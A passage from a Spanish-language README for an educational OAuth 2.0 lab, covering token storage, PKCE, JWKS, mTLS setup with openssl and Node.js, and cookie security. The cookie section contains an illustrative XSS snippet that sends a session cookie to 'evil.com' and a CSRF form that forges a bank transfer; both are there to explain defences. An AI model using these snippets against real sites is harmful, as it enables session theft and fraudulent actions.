| `normal_cookie` | ✅ Sí | ❌ No | Testing/preferences | ⚠️ No para tokens |
| `session_id` (custom) | ❌ No | ✅ Sí | Custom session ID | ✅ Correcto |
| `access_token` | ❌ NUNCA | ✅ Obligatorio | OAuth token | 🚫 NO usar cookies |

**🔍 Comando de Debugging Rápido:**
```javascript
// Ejecutar en consola del navegador para debugging
function auditCookies() {
  console.log('🍪 AUDIT DE COOKIES DE SEGURIDAD');
  console.log('=====================================');
  console.log('📱 Cookies accesibles por JavaScript:');
  console.log(document.cookie || '(ninguna)');
  console.log('');
  console.log('🛡️ Para ver cookies HttpOnly (connect.sid, session_id):');
  console.log('   F12 → Application → Cookies → ' + location.hostname);
  console.log('');
  console.log('✅ Si NO ves tokens/sessions arriba = Configuración SEGURA');
  console.log('❌ Si ves tokens/sessions arriba = PROBLEMA DE SEGURIDAD');
}

// Ejecutar audit
auditCookies();
```
| **Memory/Variables** | ✅ Protegido | ✅ N/A | ✅ Protegido | ✅ No network | SPAs (temporal) |
| **SessionStorage** | ❌ Vulnerable | ✅ N/A | 🔶 Medio | ✅ No network | SPAs (refresh tokens) |
| **LocalStorage** | ❌ Muy vulnerable | ✅ N/A | ❌ Alto | ✅ No network | ❌ Evitar |
| **Server Memory** | ✅ Protegido | ✅ Protegido | ✅ Protegido | 🔶 HTTPS only | Backends |
| **Server DB/Cache** | ✅ Protegido | ✅ Protegido | ✅ Con encriptación | 🔶 HTTPS only | M2M, Enterprise |

#### 🔧 Mejores Prácticas por Escenario

**Authorization Code (BFF):**
```bash
✅ DO:
- Almacenar todos los tokens en el servidor
- Usar cookies HttpOnly para session ID
- Implementar session timeout
- Usar Redis/Database para escalabilidad

❌ DON'T:
- Enviar tokens al navegador
- Usar localStorage para sesiones
- Almacenar client_secret en frontend
```

**Authorization Code + PKCE (SPA):**
```bash
✅ DO:
- Access tokens en memoria cuando sea posible
- Refresh tokens en sessionStorage encriptados
- Implementar token rotation
- Usar secure storage libraries

❌ DON'T:
- Almacenar tokens en localStorage
- Mantener tokens después de logout
- Ignorar token expiration
```

**Client Credentials (M2M):**
```bash
✅ DO:
- Cache tokens con TTL apropiado
- Usar secret managers para credenciales
- Implementar retry logic
- Monitorear token usage

❌ DON'T:
- Hardcodear client secrets
- Solicitar tokens en cada request
- Ignorar rate limits
- Almacenar credenciales en logs
```

### �🛡️ PKCE (Proof Key for Code Exchange)

PKCE (RFC 7636) es una extensión de OAuth 2.0 que proporciona protección adicional para clientes públicos.

#### ¿Por qué necesitamos PKCE?



#### Implementación de PKCE

**1. Generar Code Verifier**
```javascript
// Code verifier: string aleatorio de 43-128 caracteres
const codeVerifier = base64urlEncode(crypto.randomBytes(32));
// Ejemplo: "dBjftJeZ4CVP-mB92K27uhbUJU1p1r_wW1gFWFOEjXk"
```

**2. Calcular Code Challenge**
```javascript
// Método S256 (recomendado)
const codeChallenge = base64urlEncode(
  crypto.createHash('sha256')
    .update(codeVerifier)
    .digest()
);

// Método plain (solo para testing)
const codeChallenge = codeVerifier;
```

**3. Authorization Request**
```http
GET /authorize?
  response_type=code&
  client_id=abc123&
  redirect_uri=https://app.com/callback&
  scope=openid profile&
  code_challenge=E9Melhoa2OwvFrEMTJguCHaoeK1t8URWbuGJSstw-cM&
  code_challenge_method=S256&
  state=xyz789&
  nonce=abc456
```

**4. Token Exchange**
```http
POST /oauth/token
Content-Type: application/x-www-form-urlencoded

grant_type=authorization_code&
code=def456&
client_id=abc123&
code_verifier=dBjftJeZ4CVP-mB92K27uhbUJU1p1r_wW1gFWFOEjXk&
redirect_uri=https://app.com/callback
```

### 🔧 JSON Web Key Set (JWKS)

JWKS permite la distribución segura de claves públicas para verificar tokens JWT.

#### Estructura de JWKS

```json
{
  "keys": [
    {
      "kty": "RSA",
      "use": "sig",
      "kid": "2011-04-29",
      "x5t": "NjVBRjY5MDlCMUIwNzU4RTA2QzZFMDQ4QzQ2MDAyQjVDNjk1RTM2Qg",
      "n": "0vx7agoebG...",
      "e": "AQAB",
      "x5c": ["MIIDQjCCAiqgAwIBAgIGATz/FuLiMA0GCSqGSIb3DQEBBQUAMGIxCzAJBgNVBAYTAlVTMQswCQYDVQQIEwJDTzEPMA0GA1UEBxMGRGVudmVyMRwwGgYDVQQKExNQaW5nIElkZW50aXR5IENvcnAxFzAVBgNVBAMTDkJyaWFuIENhbXBiZWxsMB4XDTE0MDIxODIxNDI1OVoXDTI0MDIxODIxNDI1OVowYjELMAkGA1UEBhMCVVMxCzAJBgNVBAgTAkNPMQ8wDQYDVQQHEwZEZW52ZXIxHDAaBgNVBAoTE1BpbmcgSWRlbnRpdHkgQ29ycDEXMBUGA1UEAxMOQnJpYW4gQ2FtcGJlbGwwggEiMA0GCSqGSIb3DQEBAQUAA4IBDwAwggEKAoIBAQDS/Ht6ih4EbLN"]
    }
  ]
}
```

#### Uso de JWKS en Validación



### � Mutual TLS (mTLS) - Autenticación Bidireccional

mTLS (Mutual Transport Layer Security) extiende TLS tradicional requiriendo autenticación **bidireccional**: tanto el cliente como el servidor deben presentar y validar certificados digitales.

#### TLS vs mTLS Comparison



#### ¿Cuándo usar mTLS?

| Escenario | Justificación | Implementación |
|-----------|---------------|----------------|
| **APIs críticas B2B** | Zero-trust, compliance estricto | Certificate pinning |
| **Microservicios internos** | Service mesh security | Istio, Linkerd |
| **Banking/Payment APIs** | PCI DSS, regulaciones financieras | Hardware Security Modules |
| **Government/Defense** | Clasificación de seguridad | PKI governamental |
| **IoT/Device Authentication** | Device identity, anti-tampering | Device certificates |
| **Service-to-Service (M2M)** | Elimina shared secrets | Certificate rotation |

#### Implementación mTLS en OAuth 2.0

**1. Client Certificate Authentication (RFC 8705)**

En lugar de `client_secret`, el cliente se autentica con certificado:

```http
POST /oauth/token
Content-Type: application/x-www-form-urlencoded
# Certificado del cliente enviado en TLS handshake

grant_type=client_credentials&
client_id=mtls-client-123&
scope=read:users write:data
# NO client_secret - autenticación via certificado
```

**2. Certificate-Bound Access Tokens**

Los access tokens se "atan" al certificado del cliente:

```json
{
  "access_token": "eyJ...",
  "token_type": "Bearer",
  "expires_in": 3600,
  "cnf": {
    "x5t#S256": "bwcK0esc3ACC3DB2Y5_lESsXE8o9ltc05O89jdN-dg2"
  }
}
```

#### Configuración mTLS paso a paso

**1. Generar Certificate Authority (CA)**
```bash
# Crear CA privada
openssl genrsa -out ca-key.pem 4096

# Crear certificado CA
openssl req -new -x509 -days 365 -key ca-key.pem -out ca-cert.pem \
  -subj "/CN=MyCompany Root CA/O=MyCompany Inc/C=US"
```

**2. Generar certificados de servidor**
```bash
# Clave privada del servidor
openssl genrsa -out server-key.pem 4096

# Certificate Signing Request (CSR)
openssl req -new -key server-key.pem -out server.csr \
  -subj "/CN=api.mycompany.com/O=MyCompany Inc/C=US"

# Certificado del servidor firmado por CA
openssl x509 -req -days 365 -in server.csr -CA ca-cert.pem \
  -CAkey ca-key.pem -CAcreateserial -out server-cert.pem
```

**3. Generar certificados de cliente**
```bash
# Clave privada del cliente
openssl genrsa -out client-key.pem 4096

# CSR del cliente
openssl req -new -key client-key.pem -out client.csr \
  -subj "/CN=service-a/O=MyCompany Inc/C=US"

# Certificado del cliente firmado por CA
openssl x509 -req -days 365 -in client.csr -CA ca-cert.pem \
  -CAkey ca-key.pem -CAcreateserial -out client-cert.pem
```

#### Implementación en Node.js/Express

**Servidor con mTLS requerido:**
```javascript
const https = require('https');
const fs = require('fs');
const express = require('express');

const app = express();

// Configuración mTLS
const httpsOptions = {
  key: fs.readFileSync('server-key.pem'),
  cert: fs.readFileSync('server-cert.pem'),
  ca: fs.readFileSync('ca-cert.pem'),
  requestCert: true,        // 🔐 Requerir certificado del cliente
  rejectUnauthorized: true  // 🚫 Rechazar clientes sin certificado válido
};

// Middleware para extraer información del certificado
app.use((req, res, next) => {
  if (req.client.authorized) {
    const cert = req.connection.getPeerCertificate();
    req.clientCert = {
      subject: cert.subject,
      issuer: cert.issuer,
      serialNumber: cert.serialNumber,
      fingerprint: cert.fingerprint
    };
    console.log('✅ Cliente autenticado:', cert.subject.CN);
  } else {
    console.log('❌ Cliente no autorizado:', req.client.authorizationError);
    return res.status(401).json({error: 'Invalid client certificate'});
  }
  next();
});

// Endpoint OAuth token con mTLS
app.post('/oauth/token', (req, res) => {
  const { grant_type, client_id, scope } = req.body;
  
  // Validar que el CN del certificado coincida con client_id
  if (req.clientCert.subject.CN !== client_id) {
    return res.status(400).json({
      error: 'invalid_client',
      error_description: 'Certificate CN does not match client_id'
    });
  }
  
  // Generar access token con certificate binding
  const accessToken = generateCertificateBoundToken(req.clientCert);
  
  res.json({
    access_token: accessToken,
    token_type: 'Bearer',
    expires_in: 3600,
    scope: scope
  });
});

https.createServer(httpsOptions, app).listen(8443, () => {
  console.log('🔐 mTLS server running on https://localhost:8443');
});
```

**Cliente con mTLS:**
```javascript
const https = require('https');
const fs = require('fs');
const querystring = require('querystring');

// Configuración del cliente mTLS
const clientOptions = {
  hostname: 'api.mycompany.com',
  port: 8443,
  method: 'POST',
  path: '/oauth/token',
  key: fs.readFileSync('client-key.pem'),
  cert: fs.readFileSync('client-cert.pem'),
  ca: fs.readFileSync('ca-cert.pem'),
  checkServerIdentity: (host, cert) => {
    // Validación adicional del certificado del servidor
    console.log('🔍 Validating server cert:', cert.subject);
  }
};

// Request data
const postData = querystring.stringify({
  grant_type: 'client_credentials',
  client_id: 'service-a',
  scope: 'read:users write:data'
});

// Realizar request con mTLS
const req = https.request(clientOptions, (res) => {
  let data = '';
  res.on('data', chunk => data += chunk);
  res.on('end', () => {
    if (res.statusCode === 200) {
      const tokens = JSON.parse(data);
      console.log('✅ Tokens received:', tokens);
    } else {
      console.log('❌ Error:', res.statusCode, data);
    }
  });
});

req.write(postData);
req.end();
```

#### mTLS en Service Mesh (Istio)

**Configuración automática:**
```yaml
# destination-rule.yaml
apiVersion: networking.istio.io/v1beta1
kind: DestinationRule
metadata:
  name: api-service-mtls
spec:
  host: api-service
  trafficPolicy:
    tls:
      mode: ISTIO_MUTUAL  # 🔐 mTLS automático
---
# peer-authentication.yaml
apiVersion: security.istio.io/v1beta1
kind: PeerAuthentication
metadata:
  name: require-mtls
spec:
  mtls:
    mode: STRICT  # 🚫 Rechazar conexiones no-mTLS
```

#### Ventajas y Desventajas de mTLS

| Ventajas ✅ | Desventajas ❌ |
|-------------|----------------|
| **Strong authentication**: Certificados > passwords | **Complexity**: PKI management overhead |
| **Non-repudiation**: Audit trail completo | **Certificate rotation**: Operational burden |
| **Zero-trust**: No shared secrets | **Client compatibility**: Not all clients support |
| **Compliance**: Meets strict regulations | **Performance**: Additional handshake overhead |
| **Mutual verification**: Both parties authenticated | **Debugging**: Complex troubleshooting |

#### mTLS vs Otras Autenticaciones

| Método | Seguridad | Complejidad | Casos de Uso |
|--------|-----------|-------------|--------------|
| **API Keys** | 🔶 Media | 🟢 Baja | APIs públicas, desarrollo |
| **Client Secret** | 🔶 Media | 🟢 Baja | Applications confidenciales |
| **JWT Signed** | 🟡 Alta | 🔶 Media | Microservicios, federation |
| **mTLS** | 🟢 Muy Alta | 🔴 Alta | Banking, government, critical B2B |
| **OAuth + mTLS** | 🟢 Máxima | 🔴 Alta | Enterprise grade, compliance |

#### Casos de Uso Reales

**Banking API (PCI DSS compliance):**
```
Payment Processor ←→ Bank API
├── mTLS certificate authentication
├── Certificate-bound access tokens  
├── Hardware Security Module (HSM)
└── Certificate rotation every 90 days
```

**Microservices (Service Mesh):**
```
Service A ←→ Service B ←→ Service C
├── Istio automatic mTLS
├── Workload identity certificates
├── Policy enforcement (zero-trust)
└── Observability & audit logs
```

**IoT Device Management:**
```
IoT Device ←→ Device Management API
├── Device-specific certificates
├── Certificate-based device identity
├── Secure firmware updates via mTLS
└── Certificate lifecycle management
```

### �🔒 Mejores Prácticas de Seguridad

#### Configuración de Tokens

| Configuración | Recomendación | Justificación |
|---------------|---------------|---------------|
| **Access Token Lifetime** | 15-60 minutos | Limita exposición en caso de compromiso |
| **Refresh Token Rotation** | Habilitado | Detecta uso concurrente/robo |
| **ID Token Lifetime** | 10-60 minutos | Solo para autenticación inicial |
| **Algoritmo de firma** | RS256 | Permite verificación distribuida |
| **HTTPS Only** | Obligatorio | Protege tokens en tránsito |

#### Headers de Seguridad

```http
# Respuestas del Authorization Server
Strict-Transport-Security: max-age=31536000; includeSubDomains
X-Content-Type-Options: nosniff
X-Frame-Options: DENY
X-XSS-Protection: 1; mode=block
Referrer-Policy: strict-origin-when-cross-origin

# Requests a APIs
Authorization: Bearer eyJ...
Content-Type: application/json
User-Agent: MyApp/1.0.0
```

### 🍪 Seguridad de Cookies: HttpOnly y SameSite

#### Resumen Ejecutivo

Las cookies con atributos `HttpOnly` y `SameSite` son fundamentales en el patrón BFF (Backend-for-Frontend) porque proporcionan **protección automática** contra dos de los ataques más comunes:

- **HttpOnly** → Protege contra **XSS** (Cross-Site Scripting)
- **SameSite** → Protege contra **CSRF** (Cross-Site Request Forgery)

#### Comparación de Vulnerabilidades

| Tipo Cookie | XSS Vulnerability | CSRF Vulnerability | Recomendación |
|-------------|-------------------|-------------------|---------------|
| **Normal** | ❌ `document.cookie` expone tokens | ❌ Enviada en todos los requests | 🚫 Nunca usar |
| **HttpOnly** | ✅ JavaScript no puede acceder | ❌ Aún enviada cross-site | 🔶 Mejor, pero incompleto |
| **SameSite=Lax** | ❌ JavaScript puede acceder | ✅ No enviada desde otros sitios | 🔶 Mejor, pero incompleto |
| **HttpOnly + SameSite** | ✅ Protegida de scripts | ✅ Protegida de CSRF | ✅ **Configuración óptima** |

#### Ejemplos de Ataques Mitigados

**XSS Attack Prevention:**
```javascript
// 🕵️ Script malicioso inyectado en la página
<script>
  // ❌ Sin HttpOnly: Este código roba la sesión
  const sessionToken = document.cookie
    .split(';')
    .find(c => c.includes('session='))
    ?.split('=')[1];
  
  fetch('https://evil.com/steal', {
    method: 'POST', 
    body: sessionToken
  });
  
  // ✅ Con HttpOnly: document.cookie no incluye cookies HttpOnly
  console.log(document.cookie); // "theme=dark; lang=es" (solo cookies no-HttpOnly)
</script>
```

**CSRF Attack Prevention:**
```html
<!-- 🕵️ Página maliciosa en evil.com -->
<form action="https://mybank.com/transfer" method="POST">
  <input type="hidden" name="to" value="attacker@evil.com">
  <input type="hidden" name="amount" value="10000">
</form>

<script>
  // ❌ Sin SameSite: La cookie de sesión se envía automáticamente
  document.forms[0].submit();
  
  // ✅ Con SameSite=Lax: La cookie NO se envía desde evil.com
  // Resultado: 401 Unauthorized
</script>
```

---

**Nota importante:** Este laboratorio está diseñado con fines educativos. Para implementaciones de producción, siempre consulta las últimas mejores prácticas de seguridad y la documentación oficial de OAuth 2.0, OpenID Connect y tu proveedor de identidad.
```

## Escenarios incluidos

- `authorization-code/` — Implementación completa del flujo Authorization Code para un cliente confidencial (BFF). Incluye backend que maneja el intercambio de código y un frontend mínimo.
- `authorization-code-pkce/` — Scaffolding para Authorization Code + PKCE (SPA + Resource Server). Muestra el uso de PKCE para clientes públicos.
- `implicit/` — Scaffolding que muestra el flujo Implicit (deprecated) para comparación y fines educativos.
- `resource-owner-password/` — Scaffolding para ROPC (Resource Owner Password Credentials) con ejemplos de backend y frontend (uso educativo, no recomendado en producción).
- `client-credentials/` — Implementación para Machine-to-Machine (Client Credentials). Contiene un Caller service (confidencial), Resource Server y una UI de operador que dispara la llamada M2M.

## Matriz de Comparación de Flujos

| Aspecto | Authorization Code | Auth Code + PKCE | Client Credentials | Implicit | ROPC |
|---------|-------------------|------------------|-------------------|----------|------|
| **Tipo de Cliente** | Confidencial | Público | Confidencial | Público | Cualquiera |
| **Usuario Requerido** | ✅ Sí | ✅ Sí | ❌ No | ✅ Sí | ✅ Sí |
| **Redirection** | ✅ Sí | ✅ Sí | ❌ No | ✅ Sí | ❌ No |
| **Client Secret** | ✅ Requerido | ❌ No aplica | ✅ Requerido | ❌ No aplica | Opcional |
| **PKCE** | 🔶 Opcional | ✅ Obligatorio | ❌ No aplica | ❌ No soportado | ❌ No aplica |
| **Refresh Tokens** | ✅ Sí | ✅ Sí | ❌ No necesario | ❌ No recomendado | ✅ Sí |
| **Seguridad** | 🟢 Alta | 🟢 Alta | 🟢 Alta | 🟡 Media | 🔴 Baja |
| **Estado Actual** | ✅ Recomendado | ✅ Recomendado | ✅ Recomendado | ⚠️ Deprecado | ❌ Deprecado |

## Estructura general

Cada subcarpeta contiene su propio `README.md`, `backend/` y/o `frontend/` según aplique, junto con un `.env.example` para configurar el tenant de Auth0.

### Configuración Inicial

Antes de ejecutar los ejemplos:

1. **Copia los archivos de configuración:**
   ```bash
   # Para cada escenario
   cp .env.example .env
   ```

2. **Completa las variables de Auth0:**
   - `AUTH0_DOMAIN`: Tu dominio de Auth0 (ej: `dev-abc123.us.auth0.com`)
   - `AUTH0_CLIENT_ID`: Client ID de tu aplicación
   - `AUTH0_CLIENT_SECRET`: Client Secret (solo para clientes confidenciales)
   - `AUTH0_AUDIENCE`: Identifier de tu API en Auth0
   - `API_PORT`: Puerto donde correrá tu API (ej: `4001`)

3. **Instala dependencias:**
   ```bash
   # Backend
   cd escenario/backend
   npm install
   
   # Frontend (si aplica)
   cd ../frontend  
   npm install
   ```

### Orden Recomendado de Aprendizaje


---

**Nota importante:** Este laboratorio está diseñado con fines educativos. Para implementaciones de producción, siempre consulta las últimas mejores prácticas de seguridad y la documentación oficial de OAuth 2.0, OpenID Connect y tu proveedor de identidad.